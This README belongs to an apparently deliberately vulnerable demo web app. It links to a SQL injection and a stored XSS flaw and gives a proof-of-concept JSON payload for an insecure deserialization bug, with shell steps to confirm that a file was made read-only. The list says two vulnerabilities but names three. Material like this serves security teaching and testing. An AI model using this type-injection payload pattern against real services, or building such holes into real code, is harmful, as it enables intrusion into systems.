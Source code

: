 # VulnerableWebApp

This app currently contains two known vulnerabilities:

- [SQL injection](https://github.com/lboynton/VulnerableWebApp/blob/6671242ec890e9a4ba027d98413c03ddd50c41f8/Controllers/Api/Posts.cs)
- [Stored XSS](https://github.com/lboynton/VulnerableWebApp/blame/35336373287e4414865bb474899c35fbbcdedc0f/Views/Posts/Index.cshtml#L27)
- [Insecure Deserialization]()

# Insecure deserialization
Call the `POST /api/posts` endpoint with the following payloads.

## Exploit POC

First run `touch /tmp/rce-test.txt && chmod 777 /tmp/rce-test.txt`. Then send the following payload to the API:

```
{
    "input": {
        "$type":"System.IO.FileInfo, System.IO.FileSystem",
        "fileName":"/tmp/rce-test.txt",
        "IsReadOnly": true
    }
}
```

Then run `ls -l /tmp/rce-test.txt` and you should see that the file is now read-only.

## Valid data
```
{
    "input": {
        "Title":"testing"
    }
}```
